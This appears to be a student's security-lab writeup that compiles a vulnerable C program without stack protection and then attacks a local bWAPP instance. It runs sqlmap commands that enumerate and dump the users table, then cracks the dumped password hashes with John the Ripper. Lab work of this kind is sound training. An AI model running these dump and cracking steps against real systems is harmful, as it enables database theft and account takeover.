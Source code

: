 # Lab #1,22110013, Nguyen Le Tung Chi, 1INSE330380E_03FIE
# Task 1: Software buffer overflow attack
This lab explores various encryption algorithm with openssl
**Question 1**: Compile both C programs and shellcode to executable code
**Answer 1**:
### 1. Create a file vulnerable C program and Shellcode :
*Vulnerable*<br>

<img width="500" alt="Screenshot" src="https://github.com/user-attachments/assets/088de4be-0b99-45dd-88b9-445ecf3d4721"><br>
*Shellcode*<br>
<img width="500" alt="Screenshot" src="https://github.com/user-attachments/assets/836fd022-f44f-4aec-82fc-e02a6c911fbc"><br>

### 2. Use a docker container to do. It will be mapped to my Seclabs directoy:
 ![image](https://github.com/user-attachments/assets/ffd49dd3-deb0-4410-a96d-27fdde477641)

compile the C program by `gcc`
```sh
gcc -g vul.c -o vul.out -fno-stack-protector -mpreferred-stack-boundary=2
``` 
compile the C program by `gcc`
```sh
gcc -g vul.c -o vul.out -fno-stack-protector -mpreferred-stack-boundary=2
``` 


# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security).
![image](https://github.com/user-attachments/assets/53a1510d-4940-4e0a-bab4-2d27d811b85c)
![image](https://github.com/user-attachments/assets/e131a065-520a-4a54-96b1-b67d70cb2bad)

- Install sqlmap.
![image](https://github.com/user-attachments/assets/a0e285f8-c6b6-4b7e-aa44-6cdbfd540a0a)

- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**: A vulnerable URL in bWAPP
`http://localhost:8025/portal.php`
Choose SQL Injection (GET/Select) to get information
![image](https://github.com/user-attachments/assets/73fc436a-fcc6-4ec4-a120-6a73ddbbe6fa)
**Open Command Line and use the command**
```sh
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=ssu5d6m0ng7ugh7cvav36l03g1; security_level=0;" --dbs

```
**The cookie address will get in bWAP:**

![image](https://github.com/user-attachments/assets/2118bae7-7b56-4f12-86c4-e68a92b95ad9)
**So we have the result:**

![image](https://github.com/user-attachments/assets/89e96f03-ba13-49c3-8ba4-dd1cef4f7fd7)
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
**Use this command to get tables:**

```sh
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=ssu5d6m0ng7ugh7cvav36l03g1; security_level=0;" -D bWAPP --tables

```

**We have 5 bytes**
![image](https://github.com/user-attachments/assets/0e79bb9e-52b2-4343-aacd-86a20cd0775d)

**Use this command to get users information: **

```sh
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=ssu5d6m0ng7ugh7cvav36l03g1; security_level=0;" -D bWAPP -T users --dump

```

we have 
*Database: bWAPP*
Table: users
[2 entries]

![image](https://github.com/user-attachments/assets/844bbbc5-d5e1-4ab7-bf4b-85fad528bab4)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

*1. Access the link `https://www.openwall.com/john/`*

*2. Download this **Openwall***

3. 

![image](https://github.com/user-attachments/assets/558b15a3-72cc-4ec3-9051-d48f99a1009a)

*4. Create a file `hashes.txt` in the folder name `run`*
   
![image](https://github.com/user-attachments/assets/0be0e872-31bf-46ad-bfb8-3f4a3afae9c0)

Then, we save with this content: 

`A.I.M.:6885858486f31043e5839c735d99457f045affd0
bee:6885858486f31043e5839c735d99457f045affd0`

*5. Open **Command Line** in folder `run`:*
Use the command: `john --test`

![image](https://github.com/user-attachments/assets/9ad46afc-5328-4869-b5d6-11bc64b5d49d)

Following this command we use: `john hashes.txt`

![image](https://github.com/user-attachments/assets/b162bba5-d9e3-4053-b701-b9d8ce75e85d)

**Then we get the username and password**

   -> result
   ![image](https://github.com/user-attachments/assets/77e81f6e-38bf-465a-a88e-ec2dc7b9e191)

